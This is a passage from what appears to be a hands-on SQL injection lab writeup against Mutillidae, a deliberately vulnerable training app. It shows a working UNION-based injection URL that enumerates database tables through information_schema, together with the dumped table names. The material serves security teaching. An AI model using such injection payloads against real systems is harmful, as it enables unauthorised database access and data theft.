 ```
Username=tiki_wiki_attachments
Password=
Signature=

Username=tiki_zones
Password=
Signature=

Username=users_grouppermissions
Password=
Signature=

Username=users_groups
Password=
Signature=

Username=users_objectpermissions
Password=
Signature=

Username=users_permissions
Password=
Signature=

Username=users_usergroups
Password=
Signature=

Username=users_users
Password=
Signature=

```

* So we can see we recieved a lot of tables.
* As we are logged in as root we are getting tables from other databases.
* We only want tables from this database which is owasp10
* To get tables from the owasp10 we have to execute the following statement.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,table_name,null,null,5%20from%20information_schema.tables where table_schema ='owasp10'%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* And i recieve 8 records

```
Username=noone
Password=noone
Signature=noone

Username=noone
Password=noone
Signature=noone

Username=accounts
Password=
Signature=

Username=blogs_table
Password=
Signature=

Username=captured_data
```